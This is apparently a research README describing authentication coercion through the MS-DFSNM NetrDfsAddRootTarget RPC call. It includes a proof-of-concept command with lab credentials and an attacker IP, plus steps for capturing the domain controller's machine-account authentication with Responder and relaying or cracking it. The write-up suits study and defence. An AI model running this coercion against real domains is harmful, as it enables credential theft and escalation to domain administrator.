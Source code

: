 # MS-DFSNM - Remote call to NetrDfsAddRootTarget (opnum 23)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrDfsAddRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200)

 - **Function operation number**: `23`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddRootTarget('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddRootTarget(
   [in, unique, string] LPWSTR pDfsPath,
   [in, unique, string] LPWSTR pTargetPath,
   [in] ULONG MajorVersion,
   [in, unique, string] LPWSTR pComment,
   [in] BOOLEAN NewNamespace,
   [in] ULONG Flags
 );
```

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsAddRootTarget`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/f015b511-d56f-4e93-a106-879e93a5c200